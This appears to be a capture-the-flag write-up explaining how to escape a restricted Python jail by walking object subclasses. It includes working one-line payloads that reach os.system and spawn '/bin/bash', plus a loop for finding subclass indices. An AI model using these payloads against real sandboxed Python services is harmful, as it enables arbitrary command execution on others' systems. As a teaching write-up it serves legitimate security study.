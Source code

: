 # Solution and Explaination

Python has many "magic functions" which are inherited by object types.
In this problem, if you type "True" or "False", the interpreter doesn't 
know what you mean, since these have been removed. However you can still 
access them using something like "2>1" or "1>2" etc.

If you look at the exception handler, we actually access "base exception"
via: ().__class__.__bases__[0].__subclasses__()[52].__subclasses__()[0]

By instantiating objects and 'walking' the magic functions associated with 
the objects, you can gain accesses to specific system functions. Ideally, 
the player will invoke "system('bash')" to get a shell and read the flag. 

However they could also gain access to open() and read() to print the 
contents of the flag too.

Origional Python 2.7 solution:
().__class__.__base__.__subclasses__()[59].__init__.func_globals["linecache"].__dict__["os"].system("bash")

An example of a good solution to get a shell is:
().__class__.__base__.__subclasses__()[104].load_module("os").system('/bin/bash')

Where 104 is the index of <class '_frozen_importlib.BuiltinImporter'> that
contains "load_module" which doesn't require a reference to 'self'.

To get the 104 offset, I used this command in a Python 3.10.6 interpreter:
for i in range(0,1000): print(i, ().__class__.__base__.__subclasses__()[i])
